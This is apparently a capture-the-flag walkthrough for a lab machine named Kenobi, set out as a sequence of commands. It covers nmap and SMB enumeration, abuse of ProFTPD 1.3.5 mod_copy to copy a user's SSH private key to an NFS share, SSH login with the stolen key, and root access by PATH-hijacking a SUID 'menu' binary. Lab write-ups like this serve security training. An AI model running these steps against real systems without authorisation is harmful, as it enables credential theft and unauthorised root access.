

## 5. Kenobi

```
nmap -sC -sV <IP>
```

We found smb port lets look for anonymous login

```
smbclient -L //<IP>
```

```
smbclient //10.49.133.202/anonymous
```

We found a file called log.txt here

get log.txt (helped us to get it but we found nothing good)

We found ProFTPD version 1.3.5

```
searchsploit ProFTPD 1.3.5
```

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.48.185.198
```



http://www.proftpd.org/docs/contrib/mod_copy.html

```
ncat 10.49.133.202 21
```

Now we will copy id_rsa file

```
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```
SITE CPTO /var/tmp/id_rsa
```

```
sudo mkdir -p /mnt/kenobi
```

```
mount <IP>:/var /mnt/kenobi
```

```
ls -la /mnt/kenobi
```

```
cp /mnt/kenobi/tmp/id_rsa .
```

```
sudo chmod 600 id_rsa
```

```
ssh -i id_rsa kenobi@10.49.133.202
```

#### We found first flag after login


#### Privilege escalation

```
find / -perm -u=s -type f 2>/dev/null
```

In the list we found /usr/bin/menu a different thing which we can misuse

Put and run linpeas into that file

After running linpeas we find an unknown binary

```
/usr/bin/menu
```

```
strings /usr/bin/menu
```

```
cd /tmp
```

```
echo /bin/sh > curl
```

```
ls
```

```
chmod 777 curl
```

```
export PATH=/tmp:$PATH
```

```
/usr/bin/menu
```

```
1
```

```
whoami 
```

##### Now we are root

```
cd ..
```

```
cd root
```

```
cat root.txt
```

